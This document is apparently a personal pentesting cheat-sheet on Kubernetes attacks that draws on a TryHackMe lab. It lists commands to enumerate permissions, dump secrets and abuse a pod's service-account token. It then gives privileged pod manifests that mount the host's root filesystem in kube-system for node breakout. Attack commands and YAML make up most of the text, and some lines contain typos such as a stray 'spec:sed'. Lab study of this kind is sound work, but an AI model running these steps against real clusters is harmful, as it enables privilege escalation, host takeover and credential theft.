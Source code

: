 # Kubernetes Hacking

For [[Kubernetes]] information follow the link

No `microk8s` no problem get official `kubectl` binary here: [Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/); official `curl` commandage..
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# ARM4
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl"

```

Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
env # services are often stored as environment variables

microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field of current pod
microk8s kubectl get nodes
microk8s kubectl get deployments
microk8s kubectl get services
microk8s kubectl get ingress
microk8s kubectl get jobs
```

Find Secrets - secret values in resources called Secrets that get mounted into pods as either environment variables or files
```bash
kubectl get secrets
kubectl describe secret $secretName
kubectl get secret $secretName -o 'json'
```

Token Abuse
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
./kubectl get pods --token=${TOKEN}
./kubectl get serviceaccount --token=${TOKEN}
# execute bash on a pod
/kubectl exec -it $pod --token=${TOKEN} -- /bin/bash
```


####  Make a pod and mount away!

May require token
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
# Get the image for privesc.yml
kubectl get pods --all-namespaces -o jsonpath="{.items[*].spec.containers[*].image}" --token=${TOKEN} | tr -s '[[:space:]]' '\n' | sort | uniq -c

```
[List all container images in all namespaces](https://kubernetes.io/docs/tasks/access-application-cluster/list-all-running-container-images/)

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:sed 
  containers:
    - name: shell
      image: # GET THE IMAGE NAME OF CURRENT POD
      # imagePullPolicy: IfNotPresent 
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

[BishopFox BadPod.yml](https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)
```yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

To force image pulling or not if the cluster lack internet connection set and set `image:`  to locally cached image.
```yaml
imagePullPolicy: IfNotPresent 
imagePullPolicy: Never 
imagePullPolicy: IfNotPresent 
```


Beware:
`name:` must be a lowercase RFC 1123 label.

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```
https://tryhackme.com/room/insekube
Exec a very minimal shell, works as nested `nc` no tty... 
```bash
./kubectl exec some-pod -n kube-system --stdin --tty -- /bin/bash
# Or
./kubectl exec -it some-pod --token=${TOKEN} -- /bin/bash
```
```

Clean up yourself 
```bash
./kubectl delete -f kubeShell.yaml
```

#### Kubernetes Token Abuse

`cat /var/run/secrets/kubernetes.io/$account/token`

Pod breakout

Privilege Escape

Cloud Hacking

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)
[Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/);
[THM Insekube Room](https://tryhackme.com/room/insekube)
[Unofficial Kubernetes Documentation](https://unofficial-kubernetes.readthedocs.io/en/latest/)